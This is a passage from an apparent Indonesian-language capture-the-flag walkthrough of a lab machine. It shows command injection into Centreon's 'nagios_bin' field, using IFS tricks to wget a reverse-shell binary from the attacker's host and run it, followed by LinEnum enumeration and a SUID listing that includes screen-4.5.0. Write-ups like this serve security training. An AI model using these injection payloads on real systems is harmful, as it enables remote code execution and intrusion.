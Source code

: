 Membuka simplehttpserver menggunakan python pada port 8000

python -m SimpleHTTPServer 8000

Kita akan melakukan RCE di Centreon untuk menyuruhnya mendownload file reverse shell kita dan menjalankannya

```
"nagios_bin": "IFS=_;asd=wget_http://10.10.14.125:8000/new;$asd",
```

```
IFS=_;asd=chmod_+x_new;$asd
```

```
IFS=_;asd=./new;$asd
```
![Image](img/10.jpg)

### Root

Mari kita menggunakan sebuah script open source bernama LinEnum.sh untuk melakukan enumerasi otomatis terhadap box ini. LinEnum.sh berfungsi sebagai tools untuk kita menjalankan enumerasi secara lengkap di local linux tersebut dengan tujuan mencari task atau process yang dapat digunakan untuk melakukan privelege escalation.

Kita akan mengambilnya dari mesin lokal kita, jadi menggunakan step yang sama seperti diatas, namun bisa langsung dilakukan lebih mudah karena kita sudah memiliki interactive shell. Setelah result dari LinEnum sudah di save, penulis mengambil resultnya ke mesin lokal milik penulis untuk diteliti lebih lanjut, karena ditakutkan saat pengerjaan terjadi machine reset dan data LinEnum hilang, lagipula lebih mudah mengecek hasil LinEnum di mesin sendiri haha.

Kita akan mengecek hal hal yang paling obvious terlebih dahulu, seperti processes non generic yang berjalan, scheduled jobs, dan program dengan setuid. Saat pengerjaan penulis mengalami kesulitan karena di bagian processes banyak sekali shell yang di input oleh peserta lain dan terdaftar disana sehingga membuat penulis sempat kebingunan.

Dilihat di bagian SUID files

```
[00;31m[-] SUID files:[00m
-rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
-rwsr-xr-x 1 root root 64424 Mar 10  2017 /bin/ping
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 18448 Mar 10  2017 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
-rwsr-xr-- 1 root messagebus 42992 Jun 10 21:05 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-r-sr-xr-x 1 root root 13628 Aug 28 14:41 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Aug 28 14:41 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```
